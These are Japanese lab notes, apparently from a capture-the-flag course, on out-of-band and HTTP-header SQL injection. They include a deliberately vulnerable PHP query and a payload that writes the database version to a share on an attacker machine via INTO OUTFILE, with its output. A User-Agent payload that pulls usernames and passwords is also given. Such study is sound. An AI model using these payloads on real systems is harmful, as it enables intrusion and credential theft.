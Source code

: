 3. 脆弱なSQL
```sql
$visitor_name = $_GET['visitor_name'] ?? '';
$sql = "SELECT * FROM visitor WHERE name = '$visitor_name'";
```

4. secure_file_priv に注意
	- 値あり: そのディレクトリにしか書けない
	- 空白: どこへでも書き込み可
		- 攻撃者は試行錯誤で書き込み可否を確認する。
5. ペイロード
```sh
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```
`http://10.10.120.190/oob/search_visitor.php?visitor_name=1%27;%20SELECT%20@@version%20INTO%20OUTFILE%20%27\\\\10.10.27.32\\logs\\out.txt%27;%20--`

![](https://i.imgur.com/5dzLU9N.png)

6. 結果確認
@@versionの値をout.txtとして取得できた
```sh
ls /tmp
out.txt

root@ip-10-10-27-32:/tmp# cat out.txt
10.4.24-MariaDB

```


# HTTPヘッダー Injection
- HTTPヘッダーにはユーザー入力が含まれることがあり、それがサーバー側でSQLクエリに使用される場合がある
- HTTPヘッダー（`User-Agent`、`Referer`、`X-Forwarded-For`など）を操作してSQLコマンドを注入する
- サーバーがこれらのヘッダーをログに記録したり、SQLクエリに使用する場合、それが脆弱性となる
- 悪意のあるUser-Agentヘッダーの例
	- ヘッダーがサニタイズされずにSQL文に含まれると、SQLインジェクションが発生する
```
User-Agent: ' OR 1=1; --
```

## 例
`http://10.10.120.190/httpagent/`
- WebアプリケーションがHTTPリクエストのUser-Agentヘッダーをデータベースのlogsというテーブルに記録する
- logsテーブルに記録されたすべてのエントリを表示するエンドポイントを提供している
- ユーザーがWebページにアクセスすると、ブラウザはブラウザとオペレーティングシステムを識別するUser-Agentヘッダーを送信する
![](https://i.imgur.com/8HcIzUr.png)

考えうるSQLインジェクション
- `User-Agent`ヘッダーを`User-Agent: ' UNION SELECT username, password FROM user; --`のような悪意のある値に設定する
- `logs`テーブルからの結果を`user`テーブルからの機密データと結合するSQLコードを注入しようとする
